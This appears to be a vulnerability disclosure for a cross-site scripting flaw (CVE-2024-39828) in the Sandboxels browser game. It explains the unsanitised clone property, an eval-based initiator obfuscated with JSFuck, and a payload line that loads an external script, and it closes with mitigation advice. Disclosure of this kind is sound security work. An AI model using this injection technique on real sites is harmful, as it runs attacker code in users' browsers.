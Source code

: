 # Cross-site scripting vulnerability for Sandboxels 1.9 - 1.9.5 ([CVE-2024-39828](https://nvd.nist.gov/vuln/detail/CVE-2024-39828))
This report details a cross-site scripting (XSS) vulnerability in Sandboxels (https://sandboxels.r74n.com/) affecting versions 1.9 to 1.9.5. The vulnerability can be exploited without requiring any game modifications.

## Vulnerability Overview
Sandboxels has a feature that lets some elements clone other pixels. Each cloning element (referred to as a "cloner") starts cloning the first pixel it touches. That pixel's element is displayed below the game canvas when hovering over the cloner.

## Exploit Details
Since version 1.9 which adds saves that can be manipulated in external programs and version 1.9.1 which adds a Prop tool, that property can be exploited to display arbitrary message below the game canvas. Since elements aren't verified or sanitized, that field can be exploited to execute JavaScript code (XSS):
```js
if (elements[currentPixel.element].hoverStat) {
    stats += "<span id='stat-hover' class='stat'>"+elements[currentPixel.element].hoverStat(currentPixel)+"</span>";
}
else if (currentPixel.clone) {
    stats += "<span id='stat-clone' class='stat'>"+currentPixel.clone.toUpperCase()+"</span>";
}
```
The uppercase value of the `clone` property is appended to the HTML code inside of `stats` div without any validation.

## Proof of concept
To manipulate the `clone` property of a pixel, the Prop tool is utilized. This tool allows players to change the properties of a pixel to any data without modifying the save file.

1. The attacker escapes the `<span>` tag using a `</span>` closing tag
2. The attacker injects JavaScript code using a known vulnerability, such as `<style onload=''></style>`. The injected code will function as an initiator: `eval(document.getElementById("1").innerHTML.toLowerCase())`
This code will turn any code found inside of an element with id of 1 into lowercase and run it.
Since the initiator code can't contain lowercase letters, a tool like [JSFuck](https://jsfuck.com/) should be used to remove such characters.
3. The attacker uses a `<p>` (or any other text-based tag) with an id of 1 to store the rest of the code. This code will be used to load an external script: `let a=document['createElement']('script');a.src='URL';document.head.append(a)`. Since this code will be turned into lowercase, it can't contain any uppercase characters, so a tool like JSFuck should be used to change any code that might contain such characters (such as 'createElement' in this case). That also mean that the URL can't contain such characters either.

### Steps to reproduce
1. Select the Prop tool in Sandboxels
2. Paste the code from `initiator.js` into browser's console
3. Use the Prop tool on some pixels
4. Hover over those pixels
5. Code from `test.js` should be executed

## Mitigation Recommendations
To prevents this XSS vulnerability, the following measures should be implemented:
* **Input Validation and Sanitization**: All inputs should be properly validated and sanitized, especially if they affect HTML content
* **Escape Output**: Any user-generated content should be escaped before inserting it into the DOM

By addressing these issues, the security of Sandboxels can be significantly improved, protecting users from potential XSS attacks.
